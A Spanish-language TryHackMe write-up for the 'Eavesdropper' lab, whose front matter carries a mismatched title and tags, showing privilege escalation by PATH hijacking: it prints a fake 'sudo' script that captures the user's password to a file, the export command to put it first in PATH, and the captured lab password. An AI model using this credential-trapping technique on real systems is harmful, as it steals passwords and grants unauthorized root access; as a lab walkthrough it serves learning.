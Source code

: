 ```yaml
---
title: VulnneTroasted - Tryhackme
date: 2024-03-01
categories: [Write up, Windows, Tryhackme]
tags: [asreproast,smb,active directory]     # TAG names should always be lowercase
---
```



En la maquina `Eavesdropper` tendremos que escalar privilegios  ya que se nos otorgo una id_rsa del usuario frank para poder iniciar sesión. En la escalada de privilegios se trata de simular o engañar a usuario que esta ejecutando un `sudo cat /etc/shadow`, en este contexto nosotros simulamos el binario `sudo` para preguntar la contrseña y asi obtenerla.

![20240213174424.png](20240213174424.png)

Link [Eavesdropper](https://tryhackme.com/room/eavesdropper)

- Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [JohnHammond](https://tryhackme.com/p/JohnHammond) and  [cmnatic](https://tryhackme.com/p/cmnatic) and  [timtaylor](https://tryhackme.com/p/timtaylor) and  [THMDan](https://tryhackme.com/p/THMDan)

## Escalada de privilegios

Para hacer uso la `idrsa.id-rsa` el cual debemos dar permisos con el comando `chmod 600 idrsa.id-rsa`. Ahora iniciamos sesión y debemos de poder iniciar sesión. 

```php
❯ ssh -i idrsa.id-rsa frank@10.10.77.111
```

### Usuario: frank
Iniciamos sesión como el usuario `frank`

![20240213175455.png](20240213175455.png)

Enumerando el procesos veremos que se ejecuta `sudo cat /etc/shadow` cada cierto tiempo

![20240213194050.png](20240213194050.png)

### Path Hijacking

Para obtener una shell como `root` 

```php
frank@workstation:/tmp$ echo $PATH                                                                                                                                                        
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                           
frank@workstation:/tmp$                                                                                                                                                                    
```

Crearemos un archivo  llamado `sudo` en el cual ingresaremos la siguiente :

```php
#!/bin/bash

read -sp  '[sudo] password for frank: ' password
echo $password > /home/frank/pass.txt
```

1. `read -sp '[sudo] password for frank: ' password`: Esta línea utiliza el comando `read` para solicitar al usuario que ingrese una contraseña. Los parámetros `-s` y `-p` se utilizan para mantener la entrada en silencio (para ocultar la entrada de la contraseña) y para mostrar un mensaje de solicitud antes de que el usuario ingrese la contraseña, respectivamente. En este caso, el mensaje de solicitud es `'[sudo] password for frank: '`.
    
2. `$password > /home/frank/pass.txt`: Después de que el usuario ingrese la contraseña, se almacena en el archivo `/home/frank/pass.txt`. El contenido de la variable `$password` se redirige (`>`) al archivo `pass.txt`, lo que significa que el contenido del archivo será la contraseña ingresada por el usuario.

Ahora le debemos dar permisos 

```php
frank@workstation:~$ chmod +x sudo
```

![20240213214831.png](20240213214831.png)

Lo que esta pasando es que al ejecutar `sudo cat /etc/shadow`, se detiene a ingresar la contraseña por la que creamos un script llamado `sudo` que simulara lo que hace el sudo, primero le pediremos al usuario la contraseña con `read -sp '[sudo] password for frank: ' password` y luego la almacenaremos en `/home/frank/pass.txt`. Ahora lo que haremos será secuestrar el PATH

```php
frank@workstation:~$ export  PATH=/home/frank:$PATH
```

- `export`: Este comando se utiliza en shell scripts de Unix y Linux para establecer o modificar el valor de una variable de entorno. En este caso, se utiliza para exportar la variable `PATH` para que esté disponible para los subprocesos del shell actual.
    
- `PATH=/home/frank:$PATH`: Esto asigna un nuevo valor a la variable `PATH`. En lugar de simplemente sobrescribir el valor actual de `PATH`, este comando agrega `/home/frank` al principio del valor existente de `PATH`, seguido de `:` para separar los distintos directorios en la variable `PATH`. `$PATH` se refiere al valor actual de `PATH`, por lo que esta parte asegura que los directorios que ya estaban en `PATH` se mantengan.

![20240213215220.png](20240213215220.png)

Una vez preparado todo saldremos de la sesión logeado y luego  ingresaremos de nuevo y asi obtendremos la contraseña

![20240213215252.png](20240213215252.png)

```php
frank : !@#frankisawesome2022%*
```

Ahora teniendo la contraseña podremos enumerar con `sudo -l` y luego con `sudo su` obtendremos una shell como root 

![20240213220133.png](20240213220133.png)

### Usuario : root

![20240213220158.png](20240213220158.png)


:P